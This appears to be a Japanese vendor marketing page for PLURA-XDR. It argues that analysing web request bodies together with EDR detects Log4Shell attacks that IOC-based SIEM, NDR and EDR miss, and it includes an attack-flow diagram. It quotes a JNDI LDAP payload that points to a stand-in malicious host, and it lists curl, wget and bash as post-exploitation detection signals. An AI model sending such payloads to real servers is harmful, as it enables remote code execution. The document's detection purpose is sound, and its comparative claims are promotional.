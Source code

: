 ## `事例 1` Log4j(Log4Shell) 脆弱性攻撃の検出

### **1️⃣ 既存の脅威ハンティング（SIEM + EDR + NDR + TI）が検出できない理由**
| **比較項目** | **既存の脅威ハンティング（SIEM + EDR + NDR + TI）** | **PLURA Webリクエスト本文分析 + EDR** |
|----------|-------------------------------|-------------------------------|
| **検出方式** | IOC（脅威インテリジェンス）ベースの検出 → 既存のパターンマッチングに依存し、新たな攻撃の検出が困難 | 行動ベースの検出 → Webリクエスト本文と実行動作をリアルタイム分析し、新規攻撃を検出可能 |
| **Webアプリケーション攻撃の検出** | Webリクエストのヘッダー、URL分析のみ可能 → リクエスト本文内の悪意のあるパターンを分析不可 | **Webリクエスト本文をリアルタイム分析し、JNDI呼び出しパターンを検出可能** |
| **ネットワークトラフィック分析** | NDRがSSL復号後にパケット分析は可能だが、リクエスト本文の分析は不可 | **リクエスト本文を分析し、JNDIパターンの有無を確認し検出可能** |
| **エンドポイントセキュリティ** | EDRが実行されたプロセスを検出可能だが、Webアプリケーションで発生した攻撃との関連分析が困難 | **EDRがリモートコード実行（RCE）発生時に、悪意のあるプロセスの実行（Fork, Execve）を検出可能** |

### **2️⃣ 既存の脅威ハンティングが検出できない理由の詳細説明**
1. **SIEM + TI（Threat Intelligence）の限界**  
   - 既存のSIEMおよびTIは**静的IOC（Indicator of Compromise）ベースの検出**に依存している。  
   - つまり、**既知の悪意のあるIP、ドメイン、ファイルハッシュ値を基に検出**するため、Log4jのような**新たな脆弱性を利用した攻撃の検出が困難**。  
   - 攻撃者が**JNDI呼び出しのペイロードを変形（Payload変形）して使用すると、IOCマッチングを回避できる**。  

2. **NDR（ネットワークベースの検出）の限界**  
   - NDRは**SSL復号を通じてネットワークトラフィックを分析可能だが、リクエスト本文（Payload）を詳細に分析できない**。  
   - つまり、`jndi:ldap://malicious.com/exploit` のような**悪意のあるペイロードを含むWebリクエスト本文の分析が不可能**。  
   - ネットワークレベルで悪意のあるトラフィックが発生する可能性はあるが、**ログのコンテキスト（Context）を考慮した分析が難しい**。  

3. **EDR（エンドポイントセキュリティ）の限界**  
   - EDRはWebサーバー内で発生する悪意のあるプロセス実行（`curl`, `wget`, `bash` など）を検出可能。  
   - しかし、**Webアプリケーションで攻撃が開始された原因を直接分析できないため、Webリクエストと実行プロセスの関連性を把握しにくい**。  
   - つまり、**「Webリクエスト → 悪意のあるコード実行」までの攻撃フローを適切に分析できなければ、単なる異常プロセスとして誤検知する可能性がある**。  

---

### **3️⃣ PLURA Webリクエスト本文分析 + EDRによる検出方法**
✅ **1) Webリクエスト本文分析による悪意のあるパターンの検出**  
   - PLURAは**Webリクエスト本文をリアルタイムで分析**し、`jndi:ldap://malicious.com/exploit` のようなパターンを検出可能。  
   - 検索ボックス、ユーザー入力値、HTTPヘッダー、APIリクエスト本文で**異常なLDAP、RMI呼び出しを検出可能**。  
   - 既存のWAFが検出できない**多様なJNDI呼び出しの変形を分析し、回避型攻撃も検出可能**。  

✅ **2) 実行動作ベースの検出とブロック（EDR連携）**  
   - 攻撃が成功し、リモートコード実行（RCE）が発生した場合、  
   - PLURA EDRは**カーネルレベルで新規プロセス生成イベント（Fork, Execve）を検出**。  
   - 例えば、攻撃成功後 `curl`, `wget`, `bash` などのプロセスが実行されると、即座に検知しブロック可能。  

✅ **3) 攻撃フローの相関分析による追加攻撃の遮断**  
   - 既存のIOCベースの検出が困難な攻撃であっても、**LDAP/RMIリクエストの後に特定のプロセスが実行されるパターンを検出し、追加攻撃を事前に遮断可能**。  
   - つまり、攻撃者が**JNDI呼び出しの変形を使用し、シグネチャベースの検出を回避しようとしても、行動分析を通じて検出可能**。  

---
### **4️⃣ Log4j(Log4Shell)攻撃フロー**  
```mermaid
graph TD
    A[攻撃者] -->|JNDI Payloadを含むリクエスト| B[脆弱なWebアプリケーション]
    B -->|ログ保存| C[Log4j脆弱性存在]
    C -->|JNDI Lookup実行| D[外部の悪意のあるサーバーに接続]
    D -->|悪意のあるコード送信| E[WebサーバーでRCE発生]
    E -->|バックドア設置| F[攻撃成功]

    %% PLURAの検出と対応
    B -->|Webリクエスト本文分析| X[PLURA検出システム]
    X -->|JNDIパターン検出| Y[攻撃ブロック]
    E -->|プロセスモニタリング| Z[EDR検出および実行遮断]
```


---

### **📌 結論: PLURA Webリクエスト本文分析 + EDRがLog4j攻撃の検出で優れている理由**
✅ **既存の脅威ハンティング（SIEM + EDR + NDR + TI）はIOCベースの検出に依存しているため、Log4jのような新たな攻撃パターンを検出するのが難しい**。  
✅ **PLURA-XDRはWebリクエスト本文を分析し、行動ベースの検出を行うことでLog4j攻撃をリアルタイムで検出可能**。  
✅ **WAFを回避する攻撃、クレデンシャルスタッフィング、API Abuse、ランサムウェアの検出にも対応可能**。  
✅ **EDRとの連携により、カーネルレベルで悪意のあるプロセス実行、Webシェル設置、ファイル改ざん（FIM）を検出し、攻撃者の追加行動を遮断**。  

🔹 **PLURA-XDRは、既存のセキュリティシステムが検出できないゼロデイ攻撃にも対応できる次世代セキュリティプラットフォームです。** 🚀 

---
